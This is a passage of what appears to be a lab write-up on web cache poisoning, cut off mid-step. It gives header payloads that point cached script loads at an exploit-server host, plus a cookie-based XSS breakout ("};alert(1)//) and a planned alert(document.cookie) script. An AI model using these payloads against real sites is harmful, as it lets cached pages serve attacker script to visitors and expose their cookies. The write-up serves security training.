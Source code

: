 Try sending a `GET / HTTP/1.1` request with this header:

    X-Forwarded-Host: exploit-0aaf007c04bc306e80667a2b010d00be.exploit-server.net/exploit

Notice the response is now appending the `/resources/js/tracking.js` to our URL which is not where our script is. To correctly point it to our script's location, use this:

    X-Forwarded-Host: exploit-0aaf007c04bc306e80667a2b010d00be.exploit-server.net/exploit#

Send the request to make the cache server store it. When the victim visits `/`, he will be served with the response calling to our script.

### LAB: Web cache poisoning with an unkeyed cookie
Send a `GET / HTTP/2` request and notice the response is setting a header with `Set-Cookie: fehost=prod-cache-01;` and the value is reflected inside:

    <script>
        data = {"host":"0a35009a0360ce0880088faf00fa0001.web-security-academy.net","path":"/","frontend":"prod-cache-01"}
    </script>

This indicates that we can manipulate the cache via the `Cookie` header. Now send the `GET / HTTP/2` request with this header:

    Cookie: "};alert(1)//

This will successfully breaks out of the `data` variable and call the `alert(1)` function in the response:

    <script>
        data = {"host":"0a35009a0360ce0880088faf00fa0001.web-security-academy.net","path":"/","frontend":""};alert(1)//"}
    </script>

Send the request to make the cache server store it. When the victim visits `/`, he will be served with the response with our script injected.

### LAB: Web cache poisoning with multiple headers
Notice when making the request `GET / HTTP/2`, the browser also makes a request to `/resources/js/tracking.js`. Examine this request, when we add a `X-Forwarded-Scheme` header with a value of anything other `https`, the server responds with a `HTTP/2 302 Found` and this header:

    Location: https://0a6a007f04f8d5ea819d34fa00070065.web-security-academy.net/resources/js/tracking.js

Try adding this header:

    X-Forwarded-Host: exploit-0ae200d70401d5b48132337a0177006e.exploit-server.net/exploit

Notice the `Location` header has changed to this value and append it with `resources/js/tracking.js`:

    Location: https://exploit-0ae200d70401d5b48132337a0177006e.exploit-server.net/exploit/resources/js/tracking.js

To effectively change the location of the page to where our script resides, just add `#` to ignore the appended part. Add the `alert(document.cookie)` script to the exploit server and make this request:
